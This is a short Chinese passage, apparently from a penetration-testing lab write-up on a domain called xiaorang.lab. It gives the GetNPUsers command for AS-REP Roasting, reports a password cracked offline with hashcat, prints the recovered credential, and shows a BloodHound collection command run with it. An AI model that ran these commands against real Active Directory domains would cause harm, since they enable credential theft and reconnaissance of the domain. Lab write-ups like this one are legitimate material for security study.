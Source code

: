 ## AS—REP Roasting

使用`GetNPUsers`查找不需要 Kerberos 预身份验证的用户

```plain
proxychains python3 GetNPUsers.py -dc-ip 172.22.60.8 -usersfile flarum_users.txt xiaorang.lab
```

[![](assets/1706846898-896aa413866884f6715eecc108ac0a52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214038-51b9a3b2-c03e-1.png)

接下来用 hashcat 离线爆破两组用户，可得到一组用户密码

```plain
wangyun@XIAORANG.LAB::Adm12geC
```

导入 BloodHound

```plain
proxychains bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -c all -ns 172.22.60.8 --zip --dns-tcp
```

[![](assets/1706846898-88de495d794d0c074af06fdbffd263b9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240131214045-559c6442-c03e-1.png)
